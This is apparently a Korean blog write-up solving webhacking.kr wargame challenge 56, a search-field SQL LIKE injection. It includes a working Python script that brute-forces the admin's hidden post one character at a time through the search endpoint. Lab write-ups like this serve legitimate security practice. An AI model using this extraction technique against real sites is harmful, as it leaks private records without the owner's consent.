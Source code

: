 ```yaml
---
title: "[webhacking.kr] 56번 문제 풀이[SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
toc: true
toc_sticky: true
toc_label: "56번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 56번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/154011710-004a04fa-a91b-4a03-aed0-fe6d53a459a5.png)

  search 기능을 이용해서 admin의 게시글 내용을 알아내는 문제입니다.


# 문제 풀이
  게시글 찾기 기능을 사용할때 일반적으로 다음과 같은 sql 문을 통해서 db에서 찾아옵니다.

  ```sql
select * from chall56 where secret like '%{search}%'
  ```

  몇가지 실험 결과 위의 쿼리문으로 sql문이 구성된 걸로 추정되며, 이를 이용해서 다음과 같이 파이썬 코드로 게시글의 내용을 찾아낼 수 있습니다.

  문제를 풀 당시에는 맨 처음 단어가 FLAG일 것으로 추정하고 풀어서 빠르게 풀었지만, 보다 일반적으로 게시글 내용을 추정하기 위해서 하나의 글자에서 시작해서 뒤의 내용을 완성하고, 다시 앞의 내용을 완성하는 방식으로 searching을 진행했습니다.

  그리고 주의해야 할 점은, searching을 할때는 '%' 와 '_'의 사용을 주의해야 합니다.

  - '%' : 모든 임의의 문자열 의미 

  - '_' : 하나의 임의의 문자열 의미

  이때, 각각의 글자가 실제 특수문자의 기능이 아닌 하나의 글자로 동작하는 경우가 있기 때문에 searching의 맨 마지막에는 '_'가 존재하는지도 확인해 줍니다.

```python
import requests
import string

url = 'https://webhacking.kr/challenge/web-33/'
TRUE_FLAG = 'admin'
secret = 'a'
data = {}
exit = 0

# string.printable = '0123456789
#                     abcdefghijklmnopqrstuvwxyz
#                     ABCDEFGHIJKLMNOPQRSTUVWXYZ
#                     !"#$%&'()*+,-./:;<=>?@[\]^_`{|}~'

# '%' 는 삭제하고, '_'는 맨 마지막에 추가
printable_string = string.printable
printable_string = printable_string.replace('%','')
printable_string = printable_string.replace('_','')
printable_string = printable_string + '_'


# a부터 뒷글자들을 먼저 맞춘다.
while exit==0:
    for character in printable_string:
        data['search'] = secret + character
        response = requests.post(url,data=data)
        if(TRUE_FLAG in response.text):
            secret = data['search']
            print('\r[+]',secret,end='')
            break
        if(character == printable_string[-1]):
            exit=1
            print("break while loop")


# 앞부분을 채워 넣기
exit = 0
while exit==0:
    for character in printable_string:
        data['search'] = character + secret
        response = requests.post(url,data=data)
        if(TRUE_FLAG in response.text):
            secret = data['search']
            print('\r[+]',secret,end='')
            break    

        if(character == printable_string[-1]):
            exit=1
            print("break while loop")
            print(secret)

```

코드 실행결과는 다음과 같이 나왔으며, 맨 앞의 \는 제거해 줍니다.

![image](https://user-images.githubusercontent.com/33647663/154013180-fee784f3-eca3-4852-aaae-c0d5f2c23140.png)


